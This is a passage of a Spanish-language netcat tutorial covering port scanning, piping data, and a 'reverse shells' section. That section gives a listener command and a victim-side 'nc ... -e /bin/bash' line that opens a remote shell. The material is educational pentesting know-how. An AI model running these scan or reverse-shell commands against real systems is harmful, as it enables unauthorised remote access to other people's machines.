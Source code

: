 ``` bash
nc -zv 192.168.1.10 20-80
```

🔹 `-z` → modo “scan” sin enviar datos.

🔹 `-v` → modo verbose (muestra resultado).

🔹 `20-80` → rango de puertos.

---

## Redirección de entrada/salida

Puedes usar **pipes** para automatizar tareas:

``` bash
echo "Hola servidor" | nc 127.0.0.1 8080
```

O guardar la respuesta:

``` bash
nc 127.0.0.1 80 < peticion.txt > respuesta.txt
```

---

## Reverse Shells (usos éticos y educativos)

Netcat puede crear conexiones remotas tipo **shell inversa**, usadas en **pentesting** (no ilegalmente).

### En el servidor (escuchando)

``` bash
nc -l -p 4444 -v
```

### En la víctima (simulada)

``` bash
nc 192.168.1.100 4444 -e /bin/bash
```

👉 Esto le da al servidor una consola remota de la otra máquina. *(Solo en entornos controlados o de práctica legal.)*

---

## Otras opciones útiles

| Opción         | Descripción                                      |
| -------------- | ------------------------------------------------ |
| `-l`           | Escucha conexiones entrantes                     |
| `-p <puerto>`  | Define puerto local                              |
| `-v`           | Verbose (muestra información detallada)          |
| `-z`           | Modo escaneo sin datos                           |
| `-n`           | No resuelve DNS (usa IP directamente)            |
| `-u`           | Usa UDP                                          |
| `-e <comando>` | Ejecuta un programa tras conectar (⚠️ uso ético) |

---